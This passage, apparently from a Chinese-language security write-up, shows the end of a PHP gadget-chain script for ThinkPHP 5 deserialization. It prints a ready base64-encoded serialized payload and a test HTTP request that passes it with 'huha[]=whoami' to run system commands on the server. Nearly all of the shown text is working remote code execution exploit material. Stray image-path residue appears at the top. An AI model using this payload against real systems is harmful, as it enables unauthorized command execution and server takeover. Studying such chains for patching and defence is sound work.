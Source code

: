 ```php

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
//var_dump(new Windows());
echo base64_encode(serialize(new Windows()));

// TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mjp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo0OiJodWhhIjthOjA6e319czoxNzoiAHRoaW5rXE1vZGVsAGRhdGEiO2E6MTp7czo0OiJodWhhIjtPOjEzOiJ0aGlua1xSZXF1ZXN0IjozOntzOjc6IgAqAGhvb2siO2E6MTp7czo3OiJ2aXNpYmxlIjthOjI6e2k6MDtyOjc7aToxO3M6NjoiaXNBamF4Ijt9fXM6OToiACoAZmlsdGVyIjtzOjY6InN5c3RlbSI7czo5OiIAKgBjb25maWciO2E6MTp7czo4OiJ2YXJfYWpheCI7czo0OiJodWhhIjt9fX19fX0=
?>
```

测试如下：

```http
http://www.thinkphp5.com/public/?huha[]=whoami&id=TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mjp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo0OiJodWhhIjthOjA6e319czoxNzoiAHRoaW5rXE1vZGVsAGRhdGEiO2E6MTp7czo0OiJodWhhIjtPOjEzOiJ0aGlua1xSZXF1ZXN0IjozOntzOjc6IgAqAGhvb2siO2E6MTp7czo3OiJ2aXNpYmxlIjthOjI6e2k6MDtyOjc7aToxO3M6NjoiaXNBamF4Ijt9fXM6OToiACoAZmlsdGVyIjtzOjY6InN5c3RlbSI7czo5OiIAKgBjb25maWciO2E6MTp7czo4OiJ2YXJfYWpheCI7czo0OiJodWhhIjt9fX19fX0=
```

<img src=".\图片\Snipaste_2023-05-24_17-05-59.png" alt="Snipaste_2023-05-24_17-05-59" style="zoom:67%;" />
